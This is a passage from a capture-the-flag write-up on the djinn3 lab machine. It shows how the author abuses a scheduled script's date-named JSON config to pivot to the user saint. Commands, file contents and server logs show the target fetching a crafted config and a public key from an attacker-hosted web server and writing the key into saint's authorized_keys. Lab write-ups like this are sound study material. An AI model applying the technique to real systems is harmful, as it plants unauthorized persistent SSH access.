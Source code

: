 ```
# okay decompiling config.pyc
```
This file will filter for files with date.json.config in both saints home directory adn /tmp. The JSON file has to be in D-M-Y format to be read by the script.

## Pivoting to Saint
---

We can abuse this by creating a malicious .json.config file which copies our id_rsa.pub file into saints .ssh folder which will basically allow us to use our id_rsa private key which is hosted on our kali box to ssh into the box.

(ssh-keygen -t rsa) can be used to generate ssh keys if needed.

Setup

```
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ cp /home/hhhharshil/.ssh/id_rsa.pub .
                                                                                                                                                                                                                                            
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ nano 01-01-2022.config.json     
                                                                                                                                                                                                                                            
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ cat 01-01-2022.config.json
{
"URL": "http://192.168.49.106/id_rsa.pub",
"Output": "/home/saint/.ssh/authorized_keys"
}
                                                                                                                                                                                                                                            
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ updog -p 80           
[+] Serving /home/hhhharshil/Desktop/djinn3...
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```

Copied our id_rsa.pub into a folder where we will host the webserver and created a date.config.json file which will copy id_rsa.pub and put it into saints .ssh folder.

Downloading Config.json

```
www-data@djinn3:/tmp$ wget 192.168.49.106/01-01-2022.config.json
--2022-01-02 07:36:58--  http://192.168.49.106/01-01-2022.config.json
Connecting to 192.168.49.106:80... connected.
HTTP request sent, awaiting response... 200 OK
```

Wait 3 minutes or so for the saint script to execute the 01-01-2022.config.json which should pull the id_rsa.pub which is hosted on the kali box.

```
┌──(hhhharshil㉿kali)-[~/Desktop/djinn3]
└─$ updog -p 80           
[+] Serving /home/hhhharshil/Desktop/djinn3...
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
192.168.106.102 - - [01/Jan/2022 21:15:22] "GET /01-01-2022.config.json HTTP/1.1" 200 -
192.168.106.102 - - [01/Jan/2022 21:18:02] "GET /id_rsa.pub HTTP/1.1" 200 -
```
## Testing useradd + Reading Sudoers
---

